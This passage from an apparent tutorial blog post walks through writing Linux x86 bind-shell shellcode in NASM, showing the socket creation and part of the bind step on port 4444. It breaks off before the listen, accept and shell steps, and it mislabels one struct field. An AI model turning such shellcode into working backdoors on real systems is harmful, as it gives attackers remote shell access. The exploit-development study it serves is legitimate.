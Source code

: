 [Screenshot of compilation and execution]

Next, I used the C code as the basis for an ASM implementation.

## ASM Implementation 
The same sequence of `socket -> bind -> listen -> accept` applies here, and we
will use roughly the same formula to execute each of these steps using the 
`SOCKETCALL` syscall:
 - Syscall -> EAX
 - Function -> EBX
 - Push args onto stack
 - ESP (ptr to args) -> ECX
 - Trigger interrupt

### Socket Creation 
To begin, we must ensure our registers are in a consistent state:
{% highlight nasm %}
xor ebx, ebx
mul ebx
{% endhighlight %}

The first operation clears EBX, and the second multiplies EAX with EBX, placing 
the the result in EDX:EAX, effectively zeroing out both registers.  We then
move the entry point for the `SOCKETCALL` syscall into EAX, and save it in EDI 
for future use:
{% highlight nasm %}
mov al, 0x66
mov edi, eax
{% endhighlight %}

Next, we place our `socket()` arguments onto the stack, and store a pointer
to them in ECX:
{% highlight nasm %}
push edx
push 0x1
push 0x2
mov ecx, esp
{% endhighlight %}

Finally, we execute creation of the socket and store the returned file 
descriptor in esi:
{% highlight nasm %}
int 0x80
xchg esi, eax
{% endhighlight %}

### Socket Bind 
Binding the socket looks pretty similar: set the syscall, change the function 
to 2 (SYS_BIND), push our arguments onto the stack, and execute.  The only 
challenge here is building the sockaddr_in struct.  I'm sure there's a more
idiomatic way to do this, but I combined the struct's 3 values (short sin_addr,
unsigned short sin_port, and unsigned long sin_addr) in ECX before pushing them
onto the stack.  
{% highlight nasm %}
mov eax, edi
inc ebx

push edx
mov cx, 0x5C11
shl ecx, 0x10
or cl, 0x2
push ecx
mov ecx, esp

push 0x10

[^1]: https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf
[^2]: https://www.gta.ufrj.br/ensino/eel878/sockets/sockaddr_inman.html
[^3]: http://shell-storm.org/shellcode/files/shellcode-837.php
